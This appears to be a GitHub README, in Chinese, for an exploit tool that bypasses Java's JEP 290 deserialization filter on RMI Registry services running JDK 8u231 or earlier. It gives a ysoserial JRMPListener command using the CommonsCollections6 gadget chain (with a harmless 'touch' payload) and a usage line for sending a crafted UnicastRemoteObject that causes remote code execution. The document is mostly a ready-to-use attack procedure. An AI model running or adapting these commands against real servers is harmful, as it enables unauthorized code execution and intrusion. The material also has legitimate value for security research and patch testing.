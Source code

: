 # rmi_bypass_jep290
### 利用 UnicastRemoteObject + JRMPListener Bypass jep290

首先利用 ysoserial 开启 JRMPListener 服务监听

```
java -cp ysoserial-master-SNAPSHOT.jar ysoserial.exploit.JRMPListener 8888 CommonsCollections6 "touch /tmp/test.txt"
```

然后在利用特殊的 lookup 方法将特殊构造的 UnicastRemoteObject 序列化数据发送到 RMI Registry 服务，在其反序列化的时候会创建JRMP连接，从而形成任意代码执行。

```
Usage: java -jar rmi_bypass_jep290.jar rmi_server_ip rmi_server_port jrmp_listener_ip jrmp_listener_port
```

**适用的JDK版本：JDK <= 8u231**
